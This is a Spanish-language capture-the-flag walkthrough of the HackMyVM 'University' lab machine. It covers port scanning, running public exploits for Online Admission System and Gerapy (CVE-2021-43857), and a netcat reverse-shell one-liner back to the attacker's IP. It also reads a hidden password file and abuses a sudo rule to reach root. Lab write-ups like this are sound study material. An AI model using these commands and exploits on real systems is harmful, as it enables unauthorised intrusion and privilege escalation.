



Red Team & Ctf Pl4yer
HackMyVm - University
Autor: Sml

Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.28
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 22,80 192.168.1.28
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
| 3072 8eeeda29f1ae03a5c37e4584c78667ce (RSA)
| 256 f81cef967bae74216c9f069b200ad856 (ECDSA)
|_ 256 19fc9432419d436f52c5ba5af083b45b (ED25519)
80/tcp open http nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-git:
| 192.168.1.28:80/.git/
| Git repository found!
| Repository description: Unnamed repository; edit this file 'description' to name the...
| Remotes:
|_ https://github.com/rskoolrash/Online-Admission-System
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
| http-methods:
|_ Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Puerto 80

En el escaneo de servicios me llama la atención Online-Admission-System Buscando en internet exploit Online-Admission-System he encontrado el siguiente exploit.
https://www.exploit-db.com/exploits/50623
Lanzo el exploit y obtengo una shell.
❯ python3 exploit.py -t 192.168.1.28 -p 80 -L 192.168.1.18 -P 443
Exploit for Online Admission System 1.0 - Remote Code Execution (Unauthenticated)
[*] Resolving URL...
[*] Uploading the webshell payload...
[*] Setting up netcat listener...
listening on [any] 443 ...
[*] Spawning reverse shell...
[*] Watchout!
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.28] 55916
/bin/sh: 0: can't access tty; job control turned off
$ ls
103_0105.JPG
20140930_204238.jpg
74801_428736357185969_350171822_n.jpg
IMG_20150802_155917_mr1438528390402_mh1438528661777.jpg
cmd.php
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Una vez tengo acceso me lanzo otra shell para no perder la conexión ya que con este exploit se cierra la conexión.
$ nc -e /bin/bash 192.168.1.18 1234
Obtengo la shell.
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.28] 52478
User pivoting
Dentro del directorio html hay un archivo oculto, el contenido del archivo es la contraseña de Sandra.
www-data@university:~/html$ ls -la
total 16
drwxr-xr-x 3 root root 4096 Jan 18 2022 .
drwxr-xr-x 3 root root 4096 Jan 18 2022 ..
-rw-r--r-- 1 www-data www-data 13 Jan 18 2022 .sandra_secret
drwxr-xr-x 14 www-data www-data 4096 Jan 18 2022 university
www-data@university:~/html$ cat .sandra_secret
Myyogaiseasy
Me logueo como Sandra y empiezo a enumerar el sistema para elevar privilegios.
sandra@university:~$ sudo -l
User sandra may run the following commands on university:
(root) NOPASSWD: /usr/local/bin/gerapy
Página oficial de Gerapy.
https://docs.gerapy.com/en/latest/usage.html#database-configuration
Creo un nuevo proyecto con el comando gerapy.
sandra@university:~$ sudo /usr/local/bin/gerapy init
Initialized workspace gerapy
Entro en el directorio gerapy e inicio la base de datos.
sandra@university:~/gerapy$ sudo /usr/local/bin/gerapy migrate
Creo el usuario admin por defecto.
sandra@university:~/gerapy$ sudo /usr/local/bin/gerapy initadmin
Inicio gerapy para que se pueda acceder de forma pública.
sandra@university:~/gerapy$ sudo /usr/local/bin/gerapy runserver 0.0.0.0:8000
Desde mi máquina atacante accedo a gerapy por el puerto 8000.

Para obtener el root usaré otro exploit
https://www.exploit-db.com/exploits/50640
Lanzo el exploit desde mi máquina y obtengo el root.
❯ python3 gerapy.py -t 192.168.1.28 -p 8000 -L 192.168.1.18 -P 4444
______ _______ ____ ___ ____ _ _ _ _____ ___ ____ _____
/ ___\ \ / / ____| |___ \ / _ \___ \/ | | || ||___ / ( _ ) ___|___ |
| | \ \ / /| _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \ / /
| |___ \ V / | |__|_____/ __/| |_| / __/| |_____|__ _|__) | (_) |__) |/ /
\____| \_/ |_____| |_____|\___/_____|_| |_||____/ \___/____//_/
Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: noname
[*] Getting the ID of the project to build the URL
[*] Found ID of the project: 4
[*] Setting up a netcat listener
listening on [any] 4444 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.28] 38830
root@university:/home/sandra/gerapy# id
id
uid=0(root) gid=0(root) groups=0(root)
Y con esto ya resolvemos la máquina, nos vemos!